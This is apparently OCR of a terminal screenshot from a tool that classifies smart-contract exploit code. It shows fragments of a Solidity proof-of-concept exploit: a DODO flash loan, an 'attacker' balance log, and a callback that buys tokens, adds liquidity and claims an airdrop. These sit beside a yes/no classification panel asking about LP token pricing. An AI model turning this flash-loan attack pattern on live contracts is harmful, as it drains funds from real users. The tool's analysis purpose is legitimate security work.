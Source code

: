 │         cheats.warp(block.timestamp + 24 * 60 * 60);                                                                                                                                                                                                 │
│         dodo.flashLoan(0, 450_000 * 1e18, address(this), new bytes(1));                                                                                                                                                                              │
│                                                                                                                                                                                                                                                      │
│         emit log_named_decimal_uint(                                                                                                                                                                                                                 │
│             "[End] Attacker USDT balance after exploit",                                                                                                                                                                                             │
│             USDT.balanceOf(address(this)),                                                                                                                                                                                                           │
│             18                                                                                                                                                                                                                                       │
│         );                                                                                                                                                                                                                                           │
│     }                                                                                                                                                                                                                                                │
╰──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯
╭────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── Response ──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╮
│ {                                                                                                                                                                                                                                                    │
│     "1": "No"                                                                                                                                                                                                                                        │
│ }                                                                                                                                                                                                                                                    │
╰──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯
╭───────────────────────────────────────────────────────────────────────────────────────────────────────────── Multiple Choice Scenarios ──────────────────────────────────────────────────────────────────────────────────────────────────────────────╮
│ Knowledge: have code statements that get or calculate LP token's value/price                                                                                                                                                                         │
│ Code:                                                                                                                                                                                                                                                │
│     function DPPFlashLoanCall(address sender, uint256 baseAmount, uint256 quoteAmount, bytes calldata data) external{                                                                                                                                │
│         buyRLAndAddLiquidity();                                                                                                                                                                                                                      │
│         //claimAirDrop                                                                                                                                                                                                                               │